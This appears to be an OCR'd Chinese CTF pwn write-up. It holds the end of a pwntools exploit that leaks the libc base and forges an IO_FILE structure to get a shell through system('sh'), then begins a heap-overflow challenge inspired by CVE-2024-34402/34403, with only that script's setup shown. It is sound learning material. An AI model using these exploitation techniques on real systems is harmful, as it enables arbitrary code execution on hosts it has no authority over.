 ```python
libc_base = u64_ex(rn(8)) - 0x21B780
assert (
    (libc_base & 0xFFF == 0)
    and (libc_base > 0x700000000000)
    and (libc_base < 0x7FFFFFFFF000)
)
lg("libc_base", libc_base)

send_payload(
    0x404068,
    flat(
        {
            0x8: {
                0x18: 0,
                0x30: 0,
                0xE0: 0x404068 + 0x8 + 0xF0,
                0xF0: {
                    0x68: libc_base + libc.sym.system,
                },
            }
        },
        filler=b"\x00",
    ),
)

f1 = IO_FILE_plus_struct()
f1.flags = u64_ex("  sh;")
f1._IO_write_ptr = 1
f1._lock = libc_base + 0x21CA70
f1._wide_data = 0x404068 + 8
f1.vtable = libc_base + libc.sym._IO_wfile_jumps

send_payload(0x404040, bytes(f1))

cmd(b"exit")

ia()
```

---
## 测测你的 uri

这是一道整数溢出导致堆溢出的题目，灵感来源于 CVE-2024-34402、CVE-2024-34403 两个 CVE，难点在于虽然溢出长度是无限的，但是难以写入不可见字符。

因此要完成利用需要进行一些堆风水，篡改堆块的大小导致堆块重叠，进而进行 Tcache bin 的利用。

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
set_remote_libc("libc.so.6")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc


```